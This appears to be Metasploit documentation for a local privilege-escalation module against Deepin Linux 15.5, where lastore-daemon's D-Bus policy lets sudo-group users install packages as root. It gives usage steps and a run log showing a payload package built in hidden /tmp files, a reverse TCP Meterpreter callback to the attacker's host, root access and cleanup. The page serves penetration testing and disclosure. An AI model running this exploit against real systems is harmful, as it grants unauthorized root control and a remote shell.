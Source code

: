 ## Description

  This module attempts to gain root privileges on [Deepin Linux](https://www.deepin.org/en/) systems
  by using `lastore-daemon` to install a package. It may cause audio and/or graphical signals confirming
  the installation of the payload package.


## Vulnerable Application

  The `lastore-daemon` D-Bus configuration on Deepin Linux 15.5 permits any
  user in the `sudo` group to install arbitrary system packages without
  providing a password, resulting in code execution as root. By default,
  the first user created on the system is a member of the `sudo` group.

  The D-Bus configuration in `/usr/share/dbus-1/system.d/com.deepin.lastore.conf`
  permits users of the `sudo` group to execute arbitrary methods on the
  `com.deepin.lastore` interface, as shown below:

  ```xml
  <!-- Only root can own the service -->
  <policy user="root">
    <allow own="com.deepin.lastore"/>
    <allow send_destination="com.deepin.lastore"/>
  </policy>

  <!-- Allow sudo group to invoke methods on the interfaces -->
  <policy group="sudo">
    <allow own="com.deepin.lastore"/>
    <allow send_destination="com.deepin.lastore"/>
  </policy>
  ```

  This module has been tested successfully with lastore-daemon version
  0.9.53-1 on Deepin Linux 15.5 (x64).

  Deepin Linux is available here:

  * https://www.deepin.org/en/mirrors/releases/

  `lastore-daemon` source repository is available here:

  * https://cr.deepin.io/#/admin/projects/lastore/lastore-daemon
  * https://github.com/linuxdeepin/lastore-daemon/


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/lastore_daemon_dbus_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

```
  msf > use exploit/linux/local/lastore_daemon_dbus_priv_esc 
  msf exploit(linux/local/lastore_daemon_dbus_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/lastore_daemon_dbus_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Building package...
  [*] Writing '/tmp/.NNhJWRPZdd/DEBIAN/control' (98 bytes) ...
  [*] Writing '/tmp/.NNhJWRPZdd/DEBIAN/postinst' (28 bytes) ...
  [*] Uploading payload...
  [*] Writing '/tmp/.1sZZ46ozIH' (207 bytes) ...
  [*] Installing package...
  [*] Sending stage (857352 bytes) to 172.16.191.200
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.200:51464) at 2018-03-24 18:45:29 -0400
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN/control
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN/postinst
  [+] Deleted /tmp/.1sZZ46ozIH
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN
  [*] Removing package...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.200
  OS           : Deepin 15.5 (Linux 4.9.0-deepin13-amd64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

